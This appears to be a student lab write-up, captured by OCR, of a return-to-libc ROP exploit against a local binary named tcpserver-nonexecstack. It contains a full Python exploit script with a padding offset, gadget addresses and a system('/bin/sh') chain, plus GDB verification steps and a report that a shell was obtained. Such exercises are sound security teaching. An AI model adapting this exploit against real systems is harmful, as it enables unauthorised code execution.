 Exploit Script:
# File: rop_exploit.py
import struct
import subprocess

pop_rdi_ret = 0x7ffff7de155f
bin_sh_addr = 0x7ffff7f5e8b4
system_addr = 0x7ffff7e1f3a0
padding = b"A" * 128

payload = (
    padding +
    struct.pack("<Q", pop_rdi_ret) +
    struct.pack("<Q", bin_sh_addr) +
    struct.pack("<Q", system_addr)
)

with open("payload.bin", "wb") as f:
    f.write(payload + b"\n")
subprocess.run(["./tcpserver-nonexecstack"], input=payload + b"\n", stdout=subprocess.PIPE, stderr=subprocess.PIPE)

Run:
python3 rop_exploit.py

Details:

Payload Structure: 128-byte padding to reach RIP, followed by ROP chain.
Error Encountered: No shell initially.
Cause: Incorrect offset or libc addresses.
Resolution: Verified offset (128) and addresses in GDB:(gdb) x/8gx $rsp





5. Execute the Attack
Commands:
# Terminal 1: Debug for verification
gdb ./tcpserver-nonexecstack
(gdb) run < payload.bin
# Terminal 2: Run exploit
python3 rop_exploit.py

Details:

A /bin/sh prompt appeared, confirming successful execution of system("/bin/sh").

Deliverables for Part 2

ROP Payload:
Payload: 128 bytes of padding (A) + 0x7ffff7de155f (pop %rdi; ret) + 0x7ffff7f5e8b4 (/bin/sh) + 0x7ffff7e1f3a0 (system).
Selection Logic: Used pop %rdi; ret to set RDI to /bin/sh address, adhering to x86-64 calling convention, followed by system to execute the shell.
